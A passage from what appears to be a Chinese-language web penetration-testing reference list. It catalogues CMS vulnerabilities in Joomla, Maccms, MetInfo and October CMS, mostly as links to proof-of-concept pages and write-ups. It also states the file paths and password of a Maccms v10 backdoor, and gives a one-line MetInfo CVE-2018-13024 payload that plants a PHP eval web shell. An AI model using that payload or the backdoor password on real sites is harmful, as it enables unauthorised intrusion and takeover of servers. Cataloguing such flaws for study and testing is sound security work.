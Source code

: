 **CVE-2021-23132**
- POC | Payload | exp
    - [HoangKien1020/CVE-2021-23132](https://github.com/HoangKien1020/CVE-2021-23132)

---

### Maccms

**Maccms v10后门**
- POC | Payload | exp
    - http://www.360doc.com/content/20/0203/14/30583588_889434397.shtml
    ```
    maccms10\extend\upyun\src\Upyun\Api\Format.php
    maccms10\extend\Qcloud\Sms\Sms.php
    密码 WorldFilledWithLove
    ```

---

### MetInfo

> 官网: https://www.metinfo.cn/

**相关文章**
- [MetInfo5.3.19安装过程过滤不严导致Getshell](https://bbs.ichunqiu.com/thread-35305-1-17.html)
- [MetInfo6.0.0漏洞集合(一)](https://bbs.ichunqiu.com/thread-43416-1-7.html)
- [MetInfo6.1.0 漏洞(二)](https://bbs.ichunqiu.com/thread-43625-1-4.html)
- [Metinfo 6.1.2 SQL注入](https://bbs.ichunqiu.com/thread-46687-1-1.html)
- [metinfo最新版本后台getshell](https://bbs.ichunqiu.com/thread-29686-1-2.html)
- [Metinfo7的一些鸡肋漏洞](https://evi1.cn/post/metinfo7-bug/)
- [Metinfo7.0 SQL Blind Injection](https://github.com/T3qui1a/metinfo_sqlinjection/issues/1)

**CVE-2018-13024**
- 简介

    远程攻击者可通过向 admin/column/save.php 文件发送 `module` 参数利用该漏洞向 .php 文件写入代码并执行该代码.

- 影响版本
    - MetInfo 5.3.16
    - MetInfo 6.0.0

- 相关文章
    - [CVE-2018-13024复现及一次简单的内网渗透](https://www.freebuf.com/news/193748.html)

- POC | Payload | exp

    - `admin/column/save.php?name=123&action=editor&foldername=upload&module=22;@eval($_POST[1]);/*`

---

### October

> 官网: http://octobercms.com

**October CMS 1.0.412 - Multiple Vulnerabilities**
- POC | Payload | exp
    - [October CMS 1.0.412 - Multiple Vulnerabilities](https://www.exploit-db.com/exploits/41936)

---